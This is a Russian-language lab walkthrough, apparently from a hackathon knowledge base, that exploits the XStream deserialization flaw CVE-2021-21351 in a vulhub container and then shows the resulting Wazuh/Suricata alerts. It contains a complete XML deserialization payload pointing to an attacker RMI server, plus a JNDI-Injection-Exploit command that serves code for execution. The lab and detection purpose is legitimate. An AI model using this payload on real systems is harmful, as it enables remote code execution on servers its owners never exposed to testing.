 # xstream

### Материалы:

* [https://access.redhat.com/security/cve/CVE-2021-21351](https://access.redhat.com/security/cve/CVE-2021-21351)
* [https://nvd.nist.gov/vuln/detail/CVE-2021-21351](https://nvd.nist.gov/vuln/detail/CVE-2021-21351)
* [https://x-stream.github.io/CVE-2021-21351.html](https://x-stream.github.io/CVE-2021-21351.html)

XStream - это Java-библиотека для сериализации объектов в XML. В XStream до версии 1.4.16 существует уязвимость, которая может позволить удаленному злоумышленнику загрузить и выполнить произвольный код с удаленного хоста, манипулируя обрабатываемым входным потоком.

### Эксплуатация уязвимости&#x20;

> Контейнер с уязвимой средой находится в директории /home/user/Hackathon/vulhub-master/xstream/CVE-2021-21351

Для запуска уязвимого сервера выполните команду:

```
docker compose up -d
```

После запуска по адресу http://ваш-ip:8080 будет доступна веб-страница, отправив на которую следующий POST-запрос, мы можем протестировать успешность запуска среды&#x20;

```
POST / HTTP/1.1
Host: ваш-ip:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: wz-api=default
Upgrade-Insecure-Requests: 1
Content-Type: application/xml
Content-Length: 95

<?xml version="1.0" encoding="UTF-8"?>
<user>
  <name>Test</name>
  <age>10</age>
</user>
```

<figure><img src="../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

> Если у вас возникают ошибки сервера в ответе, попробуйте поменять версию Java 18 на машине с помощью команды sudo update-alternatives --config java, установив перед этим соответствующий пакет

<figure><img src="../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

Для реализации уязвимости нужно поднять зловредный RMI-сервер на "атакующей" машине (можно использовать уже имеющуюся) с помощью [данного](https://github.com/welk1n/JNDI-Injection-Exploit/releases/download/v1.0/JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar) архива

Для этого выполните команду:

```
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "touch /tmp/success" -A ваш-ip(атакующий)
```

<figure><img src="../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

После этого отправьте следующий POST-запрос на сервер:

```
POST / HTTP/1.1
Host: ваш-ip:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: wz-api=default
Upgrade-Insecure-Requests: 1
Content-Type: application/xml
Content-Length: 3185

<sorted-set>
  <javax.naming.ldap.Rdn_-RdnEntry>
    <type>ysomap</type>
    <value class='com.sun.org.apache.xpath.internal.objects.XRTreeFrag'>
      <m__DTMXRTreeFrag>
        <m__dtm class='com.sun.org.apache.xml.internal.dtm.ref.sax2dtm.SAX2DTM'>
          <m__size>-10086</m__size>
          <m__mgrDefault>
            <__overrideDefaultParser>false</__overrideDefaultParser>
            <m__incremental>false</m__incremental>
            <m__source__location>false</m__source__location>
            <m__dtms>
              <null/>
            </m__dtms>
            <m__defaultHandler/>
          </m__mgrDefault>
          <m__shouldStripWS>false</m__shouldStripWS>
          <m__indexing>false</m__indexing>
          <m__incrementalSAXSource class='com.sun.org.apache.xml.internal.dtm.ref.IncrementalSAXSource_Xerces'>
            <fPullParserConfig class='com.sun.rowset.JdbcRowSetImpl' serialization='custom'>
              <javax.sql.rowset.BaseRowSet>
                <default>
                  <concurrency>1008</concurrency>
                  <escapeProcessing>true</escapeProcessing>
                  <fetchDir>1000</fetchDir>
                  <fetchSize>0</fetchSize>
                  <isolation>2</isolation>
                  <maxFieldSize>0</maxFieldSize>
                  <maxRows>0</maxRows>
                  <queryTimeout>0</queryTimeout>
                  <readOnly>true</readOnly>
                  <rowSetType>1004</rowSetType>
                  <showDeleted>false</showDeleted>
                  <dataSource>rmi://ip_RMI-сервера:1099/example</dataSource>
                  <listeners/>
                  <params/>
                </default>
              </javax.sql.rowset.BaseRowSet>
              <com.sun.rowset.JdbcRowSetImpl>
                <default/>
              </com.sun.rowset.JdbcRowSetImpl>
            </fPullParserConfig>
            <fConfigSetInput>
              <class>com.sun.rowset.JdbcRowSetImpl</class>
              <name>setAutoCommit</name>
              <parameter-types>
                <class>boolean</class>
              </parameter-types>
            </fConfigSetInput>
            <fConfigParse reference='../fConfigSetInput'/>
            <fParseInProgress>false</fParseInProgress>
          </m__incrementalSAXSource>
          <m__walker>
            <nextIsRaw>false</nextIsRaw>
          </m__walker>
          <m__endDocumentOccured>false</m__endDocumentOccured>
          <m__idAttributes/>
          <m__textPendingStart>-1</m__textPendingStart>
          <m__useSourceLocationProperty>false</m__useSourceLocationProperty>
          <m__pastFirstElement>false</m__pastFirstElement>
        </m__dtm>
        <m__dtmIdentity>1</m__dtmIdentity>
      </m__DTMXRTreeFrag>
      <m__dtmRoot>1</m__dtmRoot>
      <m__allowRelease>false</m__allowRelease>
    </value>
  </javax.naming.ldap.Rdn_-RdnEntry>
  <javax.naming.ldap.Rdn_-RdnEntry>
    <type>ysomap</type>
    <value class='com.sun.org.apache.xpath.internal.objects.XString'>
      <m__obj class='string'>test</m__obj>
    </value>
  </javax.naming.ldap.Rdn_-RdnEntry>
</sorted-set>

```

<figure><img src="../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

После отправки запроса на уязвимой машине будет создан файл "/tmp/success", свидетельствующий об успешной эксплуатации уязвимости

<figure><img src="../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

В Wazuh (https://ваш-ip/app/wazuh) мы можем увидеть соответствующие алерты от IDS Suricata о сериализации полезной нагрузки Java через RMI-ответ

<figure><img src="../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>
